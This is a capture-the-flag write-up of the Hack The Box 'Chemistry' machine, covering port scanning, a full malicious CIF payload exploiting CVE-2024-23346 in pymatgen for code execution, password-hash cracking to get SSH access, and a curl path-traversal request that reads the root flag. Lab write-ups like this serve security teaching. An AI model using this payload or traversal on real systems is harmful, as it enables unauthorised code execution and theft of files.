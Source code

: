 ![Chemistry](https://labs.hackthebox.com/storage/avatars/b8f3d660af2d3ed0929eb119e33526cf.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [FisMatHack](https://app.hackthebox.com/users/1076236)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Linux   |

---







- - I start with a scan of the open ports and I continue with a scan of the versions and technologies that are running on the open ports that we have found
    
    ```python
    nmap -p- --open -vvv --min-rate 5000 -Pn -sS 10.10.11.35 -oG scan
    /opt/extractports scan
    nmap -p22,5000 -sCV -Pn 10.10.11.38 -oN ports
    ```
    
    ![image](https://github.com/user-attachments/assets/97b4d39c-24fd-4d9f-8ee0-fc0a1bceda7e)
    
- I search the website and find a page that allows me to upload a file. I try several things but I don't get anything
    
    ![image](https://github.com/user-attachments/assets/c89dca0a-41e0-41e7-8713-5b02e009cdaa)

- Searching for possible libraries I find the one being used and see that it has a vulnerability. Thanks to it I can execute remote code. [CVE-2024-23346](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

	```jsx
	data_5yOhtAoR
	_audit_creation_date            2018-06-08
	_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"
	
	loop_
	_parent_propagation_vector.id
	_parent_propagation_vector.kxkykz
	k1 [0 0 0]
	
	_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("python3 -m http.server 9988");0,0,0'
	
	_space_group_magn.number_BNS  62.448
	_space_group_magn.name_BNS  "P  n'  m  a'  "
	```
	
   ![image](https://github.com/user-attachments/assets/5f62676f-8f88-4b22-88ac-39d3f781d104)
    
- When sharing directories I can find a file containing a database with users and passwords. As I have also found users that match the existing ones on the system, I crack the hash and manage to log in via ssh as the rosa user and I can read the first flag.
    
    ![image](https://github.com/user-attachments/assets/59de1f42-26d5-4eb8-b418-c3f9d0a1c1a5)
    
- I list the open ports and find one that is not exposed to the outside. 
    
    ![image](https://github.com/user-attachments/assets/06a27799-c21a-46b3-aa2f-312259bb6f84)
    
    ![image](https://github.com/user-attachments/assets/a0e5e22f-a934-4e90-a78e-efcf1f3ec402)
    
- I try to read files from the system using path traversal and I manage to read the second flag

    ![image](https://github.com/user-attachments/assets/6dba208f-5108-49d8-9adf-02daab10a0fb)
    
	```jsx
	 curl --path-as-is <http://127.0.0.1:8080/assets/../../../../../root/root.txt>
	```
	
	![image](https://github.com/user-attachments/assets/0652e40d-c654-4a95-9f26-800d21d11e1c)

